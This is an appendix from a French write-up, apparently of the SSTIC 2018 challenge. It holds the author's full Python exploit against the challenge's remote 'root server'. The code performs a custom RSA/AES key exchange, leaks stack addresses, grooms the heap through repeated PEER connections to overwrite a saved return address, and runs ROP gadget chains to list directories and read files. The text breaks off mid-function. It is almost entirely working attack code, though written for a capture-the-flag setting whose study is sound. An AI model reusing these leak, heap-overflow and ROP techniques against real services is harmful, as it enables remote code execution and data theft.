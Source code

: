 Script d'exécution sur le serveur racine
========================================

.. raw:: latex

     \label{sect:ann-hackback-script}
     Voici le script Python que j'ai utilisé pour exécuter des chaînes de \emph{gadgets} sur le serveur racine, permettant ainsi d'énumérer le contenu de dossiers et de lire le contenu de fichiers (cf. section \ref{sect:2-courriel-final}).

.. code-block:: python

    #!/usr/bin/env python3
    # -*- coding: utf-8 -*-
    """
    Usage pour énumérer un dossier:
        ./exploit.py --real -l secret
    
    Usage pour lire un fichier:
        ./exploit.py --real -r secret/sstic2018.flag
    """
    import argparse
    import binascii
    import select
    import socket
    import struct
    
    
    LOCAL_ADDR = ('127.0.0.1', 31337)
    REAL_ADDR = ('195.154.105.12', 36735)
    MY_AGENT_ID = 0x1234567800000000
    
    
    # Clé RSA-2048 utilisée par le script pour se connecter au serveur racine,
    # générée par :
    #    import Crypto.PublicKey.RSA
    #    key = Crypto.PublicKey.RSA.generate(2048)
    #    print(key.p, key.q, key.n, key.d, key.e)
    RSA_P = int("""
    baec 29b5 0346 d1a8 d647 eac3 50b8 88e5 85b8 6704 890e b39f 6735 fcc3 6be9 b44d
    b745 d8c2 a52e db31 7bfe c17e fceb 9bb5 1f00 9eca a840 e2a5 4ed3 d9c8 ae13 ef03
    a14e 07c1 53ce 321c b43d 3a39 5ee5 00bb 92b8 ac08 f8f2 7dd9 3b53 ac7f df4e 91b8
    db12 0eff 73f2 b2fc ccb6 e65b 3a33 b044 a9ce e3cd 7851 a8ea 503b 30f0 c315 1493
    """.replace(' ', '').replace('\n', ''), 16)
    RSA_Q = int("""
    edcc cfb8 4358 fd2d 223a 65fe 75f8 4687 c1db 45f0 e9ae b4ac df89 4f23 8bfe 47a8
    9723 ff1d d0c1 9308 2f24 d71c ec09 b162 bbc1 2d5e 84ee 2f99 26b8 ae09 ae44 a98e
    c7d9 1e5e b358 6e9e 3ba6 63f1 8b51 8b31 b788 3257 6a10 431c 6ea2 0d39 d192 a22e
    6336 1c0a 3915 5e84 ce76 1b33 fa4a 3a3f 3677 a170 f08c 7b36 9777 5d67 d62b e111
    """.replace(' ', '').replace('\n', ''), 16)
    RSA_N = RSA_P * RSA_Q
    RSA_D = int("""
    15ae 156d 726c 1ef5 ebc0 79de 60c1 03fe fd88 99f4 1a6c 069f 2694 0cd9 823e 3cf0
    f2fc fafe f591 da74 e6d1 c04e 6520 1b44 ceb6 fcfd 1940 ab22 6733 b25f e76d 94fc
    506a d8e1 1521 6b80 6996 672e 61d3 42a1 1aa6 55b3 e9f4 fc75 ac34 6d21 5c03 c8d9
    0401 9860 5105 4307 8c0a b953 8a4d 6a97 81d1 7d1b 884f 88fd 871c b6cb 0239 be45
    a88a 3e82 9a5d 9cdf 9048 9125 a34b 0bcd 16c8 2a6c 2b26 9c67 d758 52c1 d26b 1eb3
    24b2 7d5c d030 93d8 b7fb 1b73 0d31 99a3 c25e f438 7349 c4c6 33e3 643f 9795 622e
    7467 0648 3e6f 2642 84f6 75ae 10b0 394e b9e1 18a2 39a0 8127 8f6d 6716 596e 1609
    42ea 6f14 ec06 92a3 c50d e2bf 3f73 3fb7 bae7 a119 2db6 3f69 4162 4904 e73a 8be1
    """.replace(' ', '').replace('\n', ''), 16)
    RSA_E = 0x10001
    assert (RSA_D * RSA_E) % ((RSA_P - 1) * (RSA_Q - 1)) == 1
    
    def decode_bigint_be(data):
        """Décode un entier grand boutiste à partir de données"""
        return int(binascii.hexlify(data).decode('ascii'), 16)
    
    def encode_bigint_be(value, bytelen=None):
        """Encode un entier grand boutiste dans des données"""
        if bytelen is None:
            bytelen = (value.bit_length() + 7) // 8
        else:
            assert value.bit_length() <= bytelen * 8
        hexval = '{{:0{:d}x}}'.format(bytelen * 2).format(value)
        return binascii.unhexlify(hexval.encode('ascii'))
    
    
    # Clé AES utilisée pour déchiffrer les messages reçus
    AES_KEY_DEC = b'0123456789abcdef'
    
    # Implémentation d'AES 4 tours copiée de
    # https://github.com/p4-team/ctf/blob/master/2016-03-12-0ctf/peoples_square/integral.py
    aes_sbox = (
        0x63, 0x7c, 0x77, 0x7b, 0xf2, 0x6b, 0x6f, 0xc5, 0x30, 0x01, 0x67, 0x2b, 0xfe, 0xd7,
        0xab, 0x76, 0xca, 0x82, 0xc9, 0x7d, 0xfa, 0x59, 0x47, 0xf0, 0xad, 0xd4, 0xa2, 0xaf,
        0x9c, 0xa4, 0x72, 0xc0, 0xb7, 0xfd, 0x93, 0x26, 0x36, 0x3f, 0xf7, 0xcc, 0x34, 0xa5,
        0xe5, 0xf1, 0x71, 0xd8, 0x31, 0x15, 0x04, 0xc7, 0x23, 0xc3, 0x18, 0x96, 0x05, 0x9a,
        0x07, 0x12, 0x80, 0xe2, 0xeb, 0x27, 0xb2, 0x75, 0x09, 0x83, 0x2c, 0x1a, 0x1b, 0x6e,
        0x5a, 0xa0, 0x52, 0x3b, 0xd6, 0xb3, 0x29, 0xe3, 0x2f, 0x84, 0x53, 0xd1, 0x00, 0xed,
        0x20, 0xfc, 0xb1, 0x5b, 0x6a, 0xcb, 0xbe, 0x39, 0x4a, 0x4c, 0x58, 0xcf, 0xd0, 0xef,
        0xaa, 0xfb, 0x43, 0x4d, 0x33, 0x85, 0x45, 0xf9, 0x02, 0x7f, 0x50, 0x3c, 0x9f, 0xa8,
        0x51, 0xa3, 0x40, 0x8f, 0x92, 0x9d, 0x38, 0xf5, 0xbc, 0xb6, 0xda, 0x21, 0x10, 0xff,
        0xf3, 0xd2, 0xcd, 0x0c, 0x13, 0xec, 0x5f, 0x97, 0x44, 0x17, 0xc4, 0xa7, 0x7e, 0x3d,
        0x64, 0x5d, 0x19, 0x73, 0x60, 0x81, 0x4f, 0xdc, 0x22, 0x2a, 0x90, 0x88, 0x46, 0xee,
        0xb8, 0x14, 0xde, 0x5e, 0x0b, 0xdb, 0xe0, 0x32, 0x3a, 0x0a, 0x49, 0x06, 0x24, 0x5c,
        0xc2, 0xd3, 0xac, 0x62, 0x91, 0x95, 0xe4, 0x79, 0xe7, 0xc8, 0x37, 0x6d, 0x8d, 0xd5,
        0x4e, 0xa9, 0x6c, 0x56, 0xf4, 0xea, 0x65, 0x7a, 0xae, 0x08, 0xba, 0x78, 0x25, 0x2e,
        0x1c, 0xa6, 0xb4, 0xc6, 0xe8, 0xdd, 0x74, 0x1f, 0x4b, 0xbd, 0x8b, 0x8a, 0x70, 0x3e,
        0xb5, 0x66, 0x48, 0x03, 0xf6, 0x0e, 0x61, 0x35, 0x57, 0xb9, 0x86, 0xc1, 0x1d, 0x9e,
        0xe1, 0xf8, 0x98, 0x11, 0x69, 0xd9, 0x8e, 0x94, 0x9b, 0x1e, 0x87, 0xe9, 0xce, 0x55,
        0x28, 0xdf, 0x8c, 0xa1, 0x89, 0x0d, 0xbf, 0xe6, 0x42, 0x68, 0x41, 0x99, 0x2d, 0x0f,
        0xb0, 0x54, 0xbb, 0x16)
    
    aes_invsbox = [0] * 256
    for i in range(256):
        aes_invsbox[aes_sbox[i]] = i
    
    def SubBytes(state):
        state = [list(c) for c in state]
        for i in range(len(state)):
            row = state[i]
            for j in range(len(row)):
                state[i][j] = aes_sbox[state[i][j]]
        return state
    
    def InvSubBytes(state):
        state = [list(c) for c in state]
        for i in range(len(state)):
            row = state[i]
            for j in range(len(row)):
                state[i][j] = aes_invsbox[state[i][j]]
        return state
    
    def rowsToCols(state):
        return [
            [state[0][0], state[1][0], state[2][0], state[3][0]],
            [state[0][1], state[1][1], state[2][1], state[3][1]],
            [state[0][2], state[1][2], state[2][2], state[3][2]],
            [state[0][3], state[1][3], state[2][3], state[3][3]]]
    
    def colsToRows(state):
        return [
            [state[0][0], state[1][0], state[2][0], state[3][0]],
            [state[0][1], state[1][1], state[2][1], state[3][1]],
            [state[0][2], state[1][2], state[2][2], state[3][2]],
            [state[0][3], state[1][3], state[2][3], state[3][3]]]
    
    def RotWord(word):
        return [word[1], word[2], word[3], word[0]]
    
    def SubWord(word):
        return [aes_sbox[word[0]], aes_sbox[word[1]], aes_sbox[word[2]], aes_sbox[word[3]]]
    
    def XorWords(word1, word2):
        return [w1 ^ w2 for w1, w2 in zip(word1, word2)]
    
    def KeyExpansion(key):
        Rcon = [
            [0x01, 0x00, 0x00, 0x00], [0x02, 0x00, 0x00, 0x00], [0x04, 0x00, 0x00, 0x00],
            [0x08, 0x00, 0x00, 0x00], [0x10, 0x00, 0x00, 0x00], [0x20, 0x00, 0x00, 0x00],
            [0x40, 0x00, 0x00, 0x00], [0x80, 0x00, 0x00, 0x00], [0x1B, 0x00, 0x00, 0x00],
            [0x36, 0x00, 0x00, 0x00]]
        Nk = Nb = Nr = 4
        temp = [0, 0, 0, 0]
        w = [0, 0, 0, 0] * (Nb * (Nr + 1))
        for i in range(Nk):
            w[i] = [key[4 * i], key[4 * i + 1], key[4 * i + 2], key[4 * i + 3]]
        for i in range(Nk, Nb * (Nr + 1)):
            temp = w[i - 1]
            if (i % Nk) == 0:
                temp = XorWords(SubWord(RotWord(temp)), Rcon[i // Nk - 1])
            w[i] = XorWords(w[i - Nk], temp)
        return w
    
    def Shiftrows(state):
        state = colsToRows(state)
        state[1].append(state[1].pop(0))
        state[2].append(state[2].pop(0))
        state[2].append(state[2].pop(0))
        state[3].append(state[3].pop(0))
        state[3].append(state[3].pop(0))
        state[3].append(state[3].pop(0))
        return rowsToCols(state)
    
    def InvShiftrows(state):
        state = colsToRows(state)
        state[1].insert(0, state[1].pop())
        state[2].insert(0, state[2].pop())
        state[2].insert(0, state[2].pop())
        state[3].insert(0, state[3].pop())
        state[3].insert(0, state[3].pop())
        state[3].insert(0, state[3].pop())
        return rowsToCols(state)
    
    def galoisMult(a, b):
        p = 0
        for i in range(8):
            if b & 1 == 1:
                p ^= a
            a <<= 1
            if a & 0x100:
                a ^= 0x1b
            b >>= 1
        return p & 0xff
    
    def mixColumn(column):
        temp = [c for c in column]
        column[0] = galoisMult(temp[0], 2) ^ galoisMult(temp[3], 1) ^ \
            galoisMult(temp[2], 1) ^ galoisMult(temp[1], 3)
        column[1] = galoisMult(temp[1], 2) ^ galoisMult(temp[0], 1) ^ \
            galoisMult(temp[3], 1) ^ galoisMult(temp[2], 3)
        column[2] = galoisMult(temp[2], 2) ^ galoisMult(temp[1], 1) ^ \
            galoisMult(temp[0], 1) ^ galoisMult(temp[3], 3)
        column[3] = galoisMult(temp[3], 2) ^ galoisMult(temp[2], 1) ^ \
            galoisMult(temp[1], 1) ^ galoisMult(temp[0], 3)
        return column
    
    def MixColumns(cols):
        return [mixColumn(c) for c in cols]
    
    def mixColumnInv(column):
        temp = [c for c in column]
        column[0] = galoisMult(temp[0], 0xE) ^ galoisMult(temp[3], 0x9) ^ \
            galoisMult(temp[2], 0xD) ^ galoisMult(temp[1], 0xB)
        column[1] = galoisMult(temp[1], 0xE) ^ galoisMult(temp[0], 0x9) ^ \
            galoisMult(temp[3], 0xD) ^ galoisMult(temp[2], 0xB)
        column[2] = galoisMult(temp[2], 0xE) ^ galoisMult(temp[1], 0x9) ^ \
            galoisMult(temp[0], 0xD) ^ galoisMult(temp[3], 0xB)
        column[3] = galoisMult(temp[3], 0xE) ^ galoisMult(temp[2], 0x9) ^ \
            galoisMult(temp[1], 0xD) ^ galoisMult(temp[0], 0xB)
        return column
    
    def InvMixColumns(cols):
        return [mixColumnInv(c) for c in cols]
    
    def AddRoundKey(s, ks, r):
        for i in range(len(s)):
            for j in range(len(s[i])):
                s[i][j] = s[i][j] ^ ks[r * 4 + i][j]
        return s
    
    def oneRound(s, ks, r):
        s = SubBytes(s)
        s = Shiftrows(s)
        s = MixColumns(s)
        s = AddRoundKey(s, ks, r)
        return s
    
    def oneRoundDecrypt(s, ks, r):
        s = AddRoundKey(s, ks, r)
        s = InvMixColumns(s)
        s = InvShiftrows(s)
        s = InvSubBytes(s)
        return s
    
    def finalRound(s, ks, r):
        s = SubBytes(s)
        s = Shiftrows(s)
        s = AddRoundKey(s, ks, r)
        return s
    
    def finalRoundDecrypt(s, ks, r):
        s = AddRoundKey(s, ks, r)
        s = InvShiftrows(s)
        s = InvSubBytes(s)
        return s
    
    def encrypt4rounds(message, key):
        s = [message[:4], message[4:8], message[8:12], message[12:16]]
        ks = KeyExpansion(key)
        s = AddRoundKey(s, ks, 0)
        c = oneRound(s, ks, 1)
        c = oneRound(c, ks, 2)
        c = oneRound(c, ks, 3)
        c = finalRound(c, ks, 4)
        output = []
        for i in range(len(c)):
            for j in range(len(c[i])):
                output.append(c[i][j])
        return output
    
    def decrypt4rounds(message, key):
        s = [message[:4], message[4:8], message[8:12], message[12:16]]
        ks = KeyExpansion(key)
        s = finalRoundDecrypt(s, ks, 4)
        c = oneRoundDecrypt(s, ks, 3)
        c = oneRoundDecrypt(c, ks, 2)
        c = oneRoundDecrypt(c, ks, 1)
        c = AddRoundKey(c, ks, 0)
        output = []
        for i in range(len(c)):
            for j in range(len(c[i])):
                output.append(c[i][j])
        return output
    
    
    class RecvMsg:
        """Received message"""
        def __init__(self, internal_name, src_agent_id, dst_agent_id, cmd, payload):
            self.internal_name = internal_name
            self.src_agent_id = src_agent_id
            self.dst_agent_id = dst_agent_id
            self.cmd = cmd
            self.payload = payload
    
        def __repr__(self):
            return 'Recv(%r %#x->%#x cmd %#x [%d] %r)' % (
                self.internal_name,
                self.src_agent_id,
                self.dst_agent_id,
                self.cmd,
                len(self.payload),
                self.payload[:256],
            )
    
    class Conn:
        """Contexte de connexion à un serveur"""
        def __init__(self, ip_addr, agent_id=MY_AGENT_ID):
            self.ip_addr = ip_addr
            self.agent_id = agent_id
            self.sock = socket.create_connection(ip_addr)
            self.iv = 0
    
            # Échange de clés avec le serveur
            self.sock_send_all(encode_bigint_be(RSA_N, 256))
            peer_rsa_n = decode_bigint_be(self.sock_recv_all(256))
    
            # Chiffre AES_KEY_DEC avec PKCS #1 v1.5 en envoie
            self.aes_key_dec = AES_KEY_DEC
            padding_length = 253 - len(AES_KEY_DEC)
            padded_key = bytearray(256)
            padded_key[0] = 0
            padded_key[1] = 2
            padded_key[2:255 - len(AES_KEY_DEC)] = b'\x42' * padding_length
            padded_key[255 - len(AES_KEY_DEC)] = 0
            padded_key[256 - len(AES_KEY_DEC):] = AES_KEY_DEC
            encrypted_key = pow(decode_bigint_be(padded_key), RSA_E, peer_rsa_n)
            self.sock_send_all(encode_bigint_be(encrypted_key, 256))
    
            # Reçoit et déchiffre aes_key_enc
            encrypted_peer_key = decode_bigint_be(self.sock_recv_all(256))
            padded_key = encode_bigint_be(pow(encrypted_peer_key, RSA_D, RSA_N))
            assert len(padded_key) == 255 and padded_key[0] == 2 and padded_key[-17] == 0
            self.aes_key_enc = padded_key[-16:]
    
        def sock_recv_all(self, size):
            """Reçoit exactement size octets de la connexion TCP"""
            data = self.sock.recv(size)
            if len(data) == size:
                return data
            assert data, "connection close"
            while len(data) < size:
                new_data = self.sock.recv(size - len(data))
                assert new_data, "connection close"
                data += new_data
            assert len(data) == size
            return data
    
        def sock_send_all(self, msg):
            """Envoie tout le message sur la connexion TCP"""
            assert msg
            size = self.sock.send(msg)
            assert size, "connection close"
            while size < len(msg):
                new_size = self.sock.send(msg[size:])
                assert new_size, "connection close"
                size += new_size
            assert size == len(msg)
    
        def recv_encrypted(self):
            """Reçoit et déchiffre un message en AES"""
            size = struct.unpack('<I', self.sock_recv_all(4))[0]
            assert 40 + 16 < size <= 0x100000
            msg = self.sock_recv_all(size)
            decrypted = b''
            for iblk in range(1, len(msg) // 16):
                ciphertext = list(msg[16 * iblk:16 * iblk + 16])
                cleartext = decrypt4rounds(ciphertext, self.aes_key_dec)
                for i in range(16):
                    cleartext[i] ^= msg[16 * iblk - 16 + i]  # mode CBC
                decrypted += bytes(cleartext)
            assert decrypted.startswith(b'AAAA\xde\xc0\xd3\xd1'), \
                'received wrong signature: %r" % decrypted'
            dest_name = decrypted[8:0x10].strip(b'\0')
            src, dst, cmd, new_size = struct.unpack('<QQII', decrypted[0x10:0x28])
            assert 40 <= new_size < size
            payload = decrypted[40:new_size]
            resp = RecvMsg(dest_name, src, dst, cmd, payload)
            print("[DEBUG] RCV %r" % resp)
            return resp
    
        def has_data(self, delay=.1):
            rlist, _, _ = select.select([self.sock.fileno()], [], [], delay)
            return self.sock.fileno() in rlist
    
        def try_recv(self, delay=1):
            if self.has_data(delay=delay):
                return self.recv_encrypted()
    
        def send_encrypted(self, payload):
            """Chiffre et envoie des données"""
            if len(payload) % 16:
                payload += b'\0' * (16 - (len(payload) % 16))
            encrypted = struct.pack('>QQ', self.iv >> 32, self.iv & 0xffffffff)
            for iblk in range(len(payload) // 16):
                plaintext = list(payload[16 * iblk:16 * iblk + 16])
                for i in range(16):
                    plaintext[i] ^= encrypted[16 * iblk + i]  # mode CBC
                ciphertext = encrypt4rounds(plaintext, self.aes_key_enc)
                encrypted += bytes(ciphertext)
            self.sock_send_all(struct.pack('<I', len(encrypted)) + encrypted)
            self.iv += 1
    
        def send_msg_with_len(self, dst, cmd, payload, src=None, length=None):
            """Chiffre et envoie un message, avec une taille spécifiée"""
            if payload is None:
                payload = b''
            if src is None:
                src = self.agent_id
            print("[DEBUG] SND cmd %#x->%#x %#x %r(%d)" % (
                src, dst, cmd, payload[:30], length))
            self.send_encrypted(
                b'AAAA\xde\xc0\xd3\xd1babar007' +
                struct.pack('<QQII', src, dst, cmd, length + 40) +
                payload)
    
        def send_msg(self, dst, cmd, payload=None, src=None):
            """Chiffre et envoie un message"""
            if payload is None:
                payload = b''
            self.send_msg_with_len(dst, cmd, payload, src, len(payload))
    
        def sr(self, dst, cmd, payload=None, src=None, delay=1):
            """Envoie un message puis reçoit un autre"""
            self.send_msg(dst, cmd, payload, src=src)
            return self.try_recv(delay)
    
        def kill_now(self):
            """Tue la connexion en envoyant un message rejeté"""
            self.send_msg_with_len(0, 0x100, b'', length=0x8000)
            self.sock.close()
    
        def ping(self, dst, message):
            """Requête PING"""
            self.send_msg(dst, 0x100, message)
            return self.try_recv()
    
        def get(self, dst, path):
            """Requête GET"""
            self.send_msg(dst, 0x204, path + b'\0')
            return self.try_recv()
    
        def put(self, dst, path):
            """Requête PUT"""
            self.send_msg(dst, 0x202, path + b'\0')
            return self.try_recv()
    
        def cmd(self, dst, cmdline):
            """Requête CMD"""
            self.send_msg(dst, 0x201, cmdline + b'\0')
            return self.try_recv()
    
        def reply_cmd(self, response):
            """Réponse CMD_CONTENT"""
            self.send_msg(0, 0x3000201, response)
    
        def stop_cmd_reply(self):
            """Réponse CMD_DONE"""
            self.send_msg(0, 0x5000201, b'')
    
        def peer(self, src=None, delay=1):
            """Requête PEER"""
            return self.sr(0, 0x10000, src=src, delay=delay)
    
        def peer_assert_resp(self, src=None, delay=1):
            """Requête PEER qui doit renvoyer une réponse valide"""
            resp = self.sr(0, 0x10000, src=src, delay=delay)
            assert resp is not None, "PEER time-out"
            assert resp.cmd == 0x1010000
    
        def peer_no_resp(self, src=None, delay=1):
            """Requête PEER qui ne doit pas renvoyer de réponse"""
            resp = self.sr(0, 0x10000, src=src, delay=delay)
            assert resp is None
    
        def leak_with_ping(self, dst, offset, do_peer=True):
            """Récupère le contenu de la pile avec PEER et PING"""
            if do_peer:
                self.peer()
            my_payload = b'x' * offset
            self.send_msg_with_len(dst, 0x100, my_payload, length=len(my_payload) + 16)
            resp = self.try_recv(delay=1)
            assert resp.payload.startswith(my_payload)
            return resp.payload[len(my_payload):]
    
        def leak_msg_addr(self, dst=0, do_peer=True):
            """Récupère l'adresse du message dans mesh_process_message (sur la pile)"""
            leaked_payload = self.leak_with_ping(dst, 0x3fa8, do_peer)
            assert len(leaked_payload) == 16
            return struct.unpack('<QQ', leaked_payload)[1]
    
        def leak_agent_and_conn_addr(self, dst=0, do_peer=True):
            """Récupère l'adresse de la structure principale de l'agent et
            celle de la connexion active"""
            leaked_payload = self.leak_with_ping(dst, 0x3fb8, do_peer)
            assert len(leaked_payload) == 16
            return struct.unpack('<QQ', leaked_payload)
    
    
    # Gadgets pour les chaînes de ROP
    def u64(x):
        return struct.pack('<Q', x)
    
    ONLY_RET = u64(0x454e8d)
    POP_RAX = u64(0x454e8c)
    POP_RDI = u64(0x400766)
    POP_RSI = u64(0x4017dc)
    POP_RCX = u64(0x408f59)
    POP_RDX = u64(0x454ee5)
    POP_R10 = u64(0x4573d4)
    STORE_RAX_TO_RSI = u64(0x489291)  # mov qword ptr [rsi], rax ; ret
    SYSCALL = u64(0x47fa05)
    
    LIBC_OPEN = u64(0x454d10)
    LIBC_SEND = u64(0x4571b0)
    LIBC_ABORT = u64(0x419540)
    
    class Exploit:
        """Exploite une vulnérabilité aboutissant à l'exécution d'une chaîne ROP"""
        def __init__(self, ip_addr, agent_id=None):
            self.ip_addr = ip_addr
    
            # Initie une première connexion
            c = Conn(ip_addr, agent_id=agent_id or MY_AGENT_ID)
            self.agent_id = c.agent_id
            c.peer(delay=10)
    
            # Récupère des adresses avec PING
            self.msg_addr = c.leak_msg_addr(do_peer=True)
            self.agent_addr, self.comm_addr = c.leak_agent_and_conn_addr(0, do_peer=True)
            exp_agent_addr = self.msg_addr + 0x4110
            print("Msg address in mesh_process_message = %#x" % self.msg_addr)
            print("Agent structure = %#x (expected %#x)" % (self.agent_addr, exp_agent_addr))
            print("comm structure = %#x" % self.comm_addr)
            print("Try recv ? %r" % c.try_recv())
            assert self.agent_addr == exp_agent_addr
    
            # Déconnecte le client
            c.kill_now()
            del c
    
            # Go for it!
            self.expl_libc()
    
        def unique_agent_id(self, pn, cid):
            """Calcule un ID agent unique pour la connexion pn et l'enfant cid"""
            if cid is None:
                return self.agent_id + (pn << 24)
            return self.agent_id + (pn << 24) + ((cid + 1) << 8)
    
        def expl_libc(self):
            # Remplit le tcache des structures CONN
            tmp = []
            for i in range(6):
                c = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(1, None))
                resp = c.peer(delay=10)
                assert resp is not None
                tmp.append(c)
            for c in tmp:
                c.kill_now()
            del tmp
    
            print("Establish 6 connections")
            t0 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(1, None))
            t0.peer_assert_resp(delay=10)
            t1 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(2, None))
            t1.peer_assert_resp(delay=10)
            t2 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(3, None))
            t2.peer_assert_resp(delay=10)
            t3 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(4, None))
            t3.peer_assert_resp(delay=10)
            t4 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(5, None))
            t4.peer_assert_resp(delay=10)
            t5 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(6, None))
            t5.peer_assert_resp(delay=10)
    
            for cid in range(8):
                t0.peer_no_resp(src=self.unique_agent_id(1, cid), delay=.1)
            for cid in range(8):
                t1.peer_no_resp(src=self.unique_agent_id(2, cid), delay=.1)
            for cid in range(8):
                t2.peer_no_resp(src=self.unique_agent_id(3, cid), delay=.1)
            for cid in range(8):
                t3.peer_no_resp(src=self.unique_agent_id(4, cid), delay=.1)
    
            print("realloc(t2, 0x80)")
            for cid in range(8, 11):
                t2.peer_no_resp(src=self.unique_agent_id(3, cid), delay=.1)
            t2.peer_no_resp(src=0x61, delay=1)
            t2.peer_no_resp(src=self.unique_agent_id(3, 12), delay=.1)
    
            print("realloc(t3, 0x80)")
            for cid in range(8, 11):
                t3.peer_no_resp(src=self.unique_agent_id(4, cid), delay=.1)
            t3.peer_no_resp(src=0x91, delay=1)
            t3.peer_no_resp(src=self.unique_agent_id(4, 12), delay=.1)
    
            for cid in range(8):
                t5.peer_no_resp(src=self.unique_agent_id(6, cid), delay=.1)
    
            print("Create a free 0x240 chunk without freeing an other connection")
            for cid in range(8, 11):
                t0.peer_no_resp(src=self.unique_agent_id(1, cid), delay=.1)
            t0.peer_no_resp(src=0x241, delay=1)
            t1.kill_now()
            del t1
    
            print("... and reconnect t1")
            t1 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(2, None))
            t1.peer_assert_resp(delay=10)
    
            print("Grow t4 after the new blocks")
            for cid in range(8):
                t4.peer_no_resp(src=self.unique_agent_id(5, cid), delay=.1)
    
            print("Grow t5 more")
            for cid in range(8, 11):
                t5.peer_no_resp(src=self.unique_agent_id(6, cid), delay=.1)
            # Overflow 12th route (no realloc)
            t5.peer_no_resp(src=0x21, delay=1)
            print("realloc(t5, 0x80)")
            t5.peer_no_resp(src=self.unique_agent_id(6, 12), delay=.1)
    
            print("7th client => realloc route entries")
            t6 = Conn(ip_addr=self.ip_addr, agent_id=self.unique_agent_id(7, None))
            t6.peer_assert_resp(delay=10)
    
            print("Move t6 right after the route entries")
            for cid in range(8):
                t6.peer_no_resp(src=self.unique_agent_id(7, cid), delay=.1)
    
            print("Overflow t4 over t5 size")
            for cid in range(8, 11):
                t4.peer_no_resp(src=self.unique_agent_id(5, cid), delay=.1)
    
            t4.peer_no_resp(src=0x1a1, delay=1)
    
            print("Expand t5 => realloc(0xa8)")
            for cid in range(13, 17):
                t5.peer_no_resp(src=self.unique_agent_id(6, cid), delay=.1)
            t5.peer_no_resp(src=0x111, delay=.1)
    
            # Écrase "nombre" et "alloués"
            t5.peer_no_resp(src=0x0200000000, delay=.1)
    
            # Écrit en IP sauvegardé de mesh_process_message...
            print("Using message buffer at %#lx, saved RIP ...-8" % self.msg_addr)
            t5.peer_no_resp(src=self.msg_addr - 8, delay=.1)
            self.conns = [t0, t1, t2, t3, t4, t5, t6]  # save conns
    
        def exec_rop(self, rop_chain):
            """Exécute la chaîne de gadgets donnée en paramètre"""
            self.conns[0].send_msg(0, 0x10000, payload=rop_chain, src=0x454e89)
    
        def ls(self, name='.'):
            """Liste le contenu du dossier indiqué"""
            ropchain_addr = self.msg_addr + 0x28
    
            rop_data_offset = 0x800
            rop_data = name.encode('ascii') + b'\0'
    
            ropchain = ONLY_RET * 10
            ropchain += POP_RDI + u64(ropchain_addr + rop_data_offset)
            ropchain += POP_RSI + u64(0o200000)  # O_DIRECTORY
            ropchain += LIBC_OPEN
    
            # Appelle getdents64 (syscall 217)
